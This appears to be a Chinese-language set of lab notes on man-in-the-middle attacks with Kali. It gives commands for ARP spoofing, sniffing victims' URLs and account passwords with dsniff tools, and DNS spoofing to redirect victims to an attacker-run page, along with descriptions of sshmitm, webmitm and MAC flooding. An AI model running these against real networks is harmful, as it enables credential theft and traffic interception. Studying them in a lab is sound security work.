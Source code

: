 最好的 MitM 中间人攻击开源框架清单：https://github.com/Chan9390/Awesome-MitM



kali流量转发：

```bash
cat /proc/sys/net/ipv4/ip_forward 			#值为0表示没开启流量转发，为1表示开启了
echo 1 > /proc/sys/net/ipv4/ip_forward	#开启流量转发
```

开启限速：

```bash
限制网速200ms延时
sudo tc qdisc add dev eth0 root netem delay 200ms
 
取消限制网速200ms延时
sudo tc qdisc del dev eth0 root netem delay 200ms
```



## webspy

使用webspy嗅探受害者访问了哪些网页。
前提步骤同“嗅探图片”，使用arpspoof开启欺骗，然后使用webspy来抓，但是这个工具还是依旧难用，只能抓取一次，然后自己就崩溃了

```bash
webspy -i eth0 指定ip
```





## urlsnarf

使用urlsnarf嗅探受害者访问了哪些网页，默认抓取80、8080、3128端口的数据。
前提步骤同“嗅探图片”，使用arpspoof开启欺骗，然后使用urlsnarf来抓，这个工具好用一些

```bash
urlsnarf -i eth0
```



### dsniff 嗅探账密

当网络中出现了填写账号密码的数据时，dsniff这款工具就开始截获数据，它的-m参数会解析网络协议。
前提步骤同“嗅探图片”，使用arpspoof开启欺骗，然后使用dsniff来抓。
注意，dsniff不会实时显示结果，当你在win7中输入quit的时候dsniff才会显示结果

```
dsniff: 一个密码侦测工具，他能够自动分析端口上收到的某些协议的数据包，并获取相应的密码。dnisff支持的协议有FTP, Telnet, SMTP, HTTP, POP, poppass, NNTP, IMAP, SNMP, LDAP, Rlogin, RIP, OSPF, PPTP MS-CHAP, NFS, VRRP, YP/NIS, SOCKS, X11, CVS, IRC, AIM, ICQ, Napster, PostgreSQL, Meeting Maker, Citrix ICA, Symantec pcAnywhere, NAI Sniffer, Microsoft SMB, Oracle SQL*Net, Sybase and Microsoft SQL;
filesnart: 嗅探网络文件系统（NFS）的流量，并选定某个文件，转储到本地当前工作目录;
mailsnarf: 可以嗅探SMTP和POP流量，并以Berkeley邮件格式输出e-mail消息;
msgsnarf:可以嗅探聊天软件的聊天内容，包括AOL,ICQ 2000, IRC, MSN Messenger, 或Yahoo  Messenger;
urlsnarf: 可以嗅探HTTP请求报文的内容，并以CLF (Common Log Format）通用日志格式输出;
webspy: 指定一个要嗅探的主机，如果指定主机发送HTTP请求，打开网页，webspy也会通过netscape浏览器在本地打开一个相同的网页;
sshmitm: 是Dsniff自带的一个具有威胁的工具之一。首先通过dnsspoof伪造实际机器主机名将攻击目标主机的SSH连接转到本地，那么sshmitm可以截获来自主机的密钥，并获得被劫持连接中的所有信息解码，然后重新转发SSH流量到SSH服务器;
webmitm:与sshmitm类似，也需要dnsspoof的"配合"，不同的是，webmitm"劫持"的是HTTP和HTTPS会话过程，捕获SSL的加密通信;
arpspoof:启用arp欺骗，将自己网卡的IP地址伪装成指定IP地址的MAC;
dnsspoof: 启用DNS欺骗，如果dnsspoof嗅探到局域网内有DNS请求数据包，它会分析其内容，并用伪造的DNS响应包来回复请求者。如果是 请求解析某个域名，dnsspoof会让该域名重新指向另一个IP地址（黑客所控制的主机），如果是反向IP指针解析，dnsspoof也会返回一个伪造的域名;
macof:用来进行MAC flooding，可以用来使交换机的MAC表溢出，对于以后收到的数据包以广播方式发送。注意：在进行MAC泛洪之前就存在于交换机MAC表中的条目不会被覆盖，只能等到这些条目自然老化;
tcpkill: 能够切断指定的TCP会话连接，主要是基于TCP的三次握手过程;
tcpnice: 能够通过在添加活动的流量，降低指定的LAN上的TCP连接的速度.
```





## dnsspoof

dnsspoof启用DNS欺骗，如果是请求解析某个域名，dnsspoof会让该域名重新指向另一个IP地址（黑客所控制的主机），如果dnsspoof嗅探到局域网内有DNS请求数据包，它会分析其内容，并用伪造的DNS响应包来回复请求者。
由于dns查询是客户机向网关发起请求，所以我们如果要在局域网中实现DNS欺骗，仍然是需要先做到arp欺骗。

```bash
参数：
-i 指定一个网卡
-f 指定要欺骗的网址文件，如果不指定，将返回本机的IP地址给被攻击者
```

### 示例：

1：编辑dnsspoof的配置文件

```bash
updatedb	#更新一下locate的数据库
locate dnsspoof.host	#使用locate命令定位文件位置
```

2：kali上开启apache服务，让受害者可以访问到页面

```bash
systemctl start apache2.service
```



3：发起DNS欺骗

```bash
dnsspoof -i eth0 -f /usr/lib/x86_64-linux-gnu/dnsspoof.hosts
```



-i参数指定网卡，-f调用配置文件，然后kali机会监听eth0网卡中发往udp53端口的数据包，注意啊，是监听网络中目标端口是53的数据包，不是本地监听了一个53端口。